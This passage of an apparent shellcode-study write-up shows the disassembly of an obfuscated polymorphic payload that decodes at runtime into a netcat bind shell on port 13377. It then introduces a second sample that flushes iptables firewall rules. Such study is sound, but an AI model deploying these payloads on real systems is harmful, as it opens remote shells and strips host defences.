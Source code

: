The stack now looks like:
```
gdb$ x/14wx $esp
0xbffff0c8:	0xbffff0d8	0xbffff0e8	0xbffff0f8	0x00000000
0xbffff0d8:	0x6e69622f	0x2f2f2f2f	0x636e2f2f	0x00000000
0xbffff0e8:	0x76766c2d	0x69622f65	0x68732f6e	0x00000000
0xbffff0f8:	0x3170762d	0x37373333
```

 This modified shellcode resulted in 86 bytes which is around 134% of the original.

```nasm
08048080 <_start>:
 8048080:	31 c0                	xor    eax,eax
 8048082:	b8 11 11 11 11       	mov    eax,0x11111111
 8048087:	31 d2                	xor    edx,edx
 8048089:	68 44 44 48 48       	push   0x48484444 ; "HHDD"
 804808e:	68 3e 87 81 42       	push   0x4281873e ; "B>"
 8048093:	89 e2                	mov    edx,esp
 8048095:	50                   	push   eax
 8048096:	68 7f 40 84 79       	push   0x7984407f ; "y@"
 804809b:	68 76 40 73 7a       	push   0x7a734076 ; "zs@v"
 80480a0:	68 3e 7d 87 87       	push   0x87877d3e ; "}>"
 80480a5:	89 e1                	mov    ecx,esp
 80480a7:	50                   	push   eax
 80480a8:	68 40 40 7f 74       	push   0x747f4040 ; "t@@"
 80480ad:	68 40 40 40 40       	push   0x40404040 ; "@@@@"
 80480b2:	68 40 73 7a 7f       	push   0x7f7a7340 ; "zs@"
 80480b7:	89 e3                	mov    ebx,esp
 80480b9:	50                   	push   eax
 80480ba:	52                   	push   edx
 80480bb:	51                   	push   ecx
 80480bc:	53                   	push   ebx
 80480bd:	31 d2                	xor    edx,edx
 80480bf:	b0 0b                	mov    al,0xb
 80480c1:	31 c9                	xor    ecx,ecx
 80480c3:	b1 0b                	mov    cl,0xb
 80480c5:	89 c8                	mov    eax,ecx

080480c7 <sub_loop>:
 80480c7:	81 6c 8c 08 11 11 11 	sub    DWORD PTR [esp+ecx*4+0x8],0x11111111
 80480ce:	11
 80480cf:	66 49                	dec    cx
 80480d1:	75 f4                	jne    80480c7 <sub_loop>
 80480d3:	89 e1                	mov    ecx,esp
 80480d5:	cd 80                	int    0x80
```

## Shellcode 2: shellcode-65.php
Location: [http://shell-storm.org/shellcode/files/shellcode-65.php](http://shell-storm.org/shellcode/files/shellcode-65.php)<br/>

### What it does
This shellcode flushes all rules using ipchains.  Note: I have made a slight modification to the original shellcode in which it will use iptables instead of ipchains.
